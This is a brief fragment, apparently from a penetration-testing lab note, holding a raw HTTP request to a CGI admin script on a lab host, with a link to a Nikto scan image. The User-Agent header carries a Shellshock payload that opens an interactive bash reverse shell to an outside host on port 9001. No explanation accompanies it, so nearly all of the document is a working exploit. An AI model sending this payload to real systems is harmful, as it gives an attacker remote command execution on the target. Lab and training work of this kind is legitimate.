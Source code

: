```
GET /cgi-bin/admin.cgi HTTP/1.1
Host: 10.11.1.71
User-Agent: () { :; }; echo; echo; /bin/bash -i >& /dev/tcp/192.168.119.185/9001 0>&1
Content-Length: 2
```

![[alpha-nikto.png]]